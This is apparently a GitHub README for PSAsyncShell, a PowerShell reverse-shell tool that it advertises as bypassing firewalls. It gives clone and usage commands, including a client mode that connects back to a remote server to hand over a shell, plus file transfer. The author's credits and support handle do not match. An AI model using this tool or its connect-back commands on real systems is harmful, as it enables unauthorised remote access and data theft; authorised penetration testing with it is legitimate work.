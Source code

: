 <p align="center"><img width=600 alt="PSAsyncShell" src="https://github.com/trhacknon/PSAsyncShell/blob/main/PSAsyncShell.png"></p>

# PSAsyncShell
**PSAsyncShell** is an Asynchronous TCP Reverse Shell written in pure PowerShell. 

Unlike other reverse shells, all the communication and execution flow is done asynchronously, allowing to bypass some firewalls and some countermeasures against this kind of remote connections.

Additionally, this tool features command history, screen wiping, file uploading and downloading, information splitting through chunks and reverse Base64 URL encoded traffic.


# Requirements
- PowerShell 4.0 or greater


# Download
It is recommended to clone the complete repository or download the zip file.
You can do this by running the following command:
```
git clone https://github.com/trhacknon/PSAsyncShell
```


# Usage
```
.\PSAsyncShell.ps1 -h

  ____  ____    _                         ____  _          _ _
 |  _ \/ ___|  / \   ___ _   _ _ __   ___/ ___|| |__   ___| | |
 | |_) \___ \ / _ \ / __| | | | '_ \ / __\___ \| '_ \ / _ \ | |
 |  __/ ___) / ___ \\__ \ |_| | | | | (__ ___) | | | |  __/ | |
 |_|   |____/_/   \_\___/\__, |_| |_|\___|____/|_| |_|\___|_|_|
                         |___/

  ---------------------- by @trhacknon -----------------------

 Info:  This tool helps you to get a remote shell
        over asynchronous TCP to bypass firewalls

 Usage: .\PSAsyncShell.ps1 -s -p listen_port
          Listen for a new connection from the client

        .\PSAsyncShell.ps1 -c server_ip server_port
          Connect the client to a PSAsyncShell server

 Warning: All info betwen parts will be sent unencrypted
          Download & Upload functions don't use MultiPart

```

### The detailed guide of use can be found at the following link:

https://darkbyte.net/psasyncshell-bypasseando-firewalls-con-una-shell-tcp-asincrona


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This tool has been created and designed from scratch by Joel Gámez Molina // @trhacknon


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.

For more information, you can find me on Twitter as [@trhacknon](https://twitter.com/) and on my blog [darkbyte.net](https://darkbyte.net).


# Support
You can support my work buying me a coffee:

[<img width=250 alt="buymeacoffe" src="https://cdn.buymeacoffee.com/buttons/v2/default-blue.png">](https://www.buymeacoffee.com/joelgmsec)
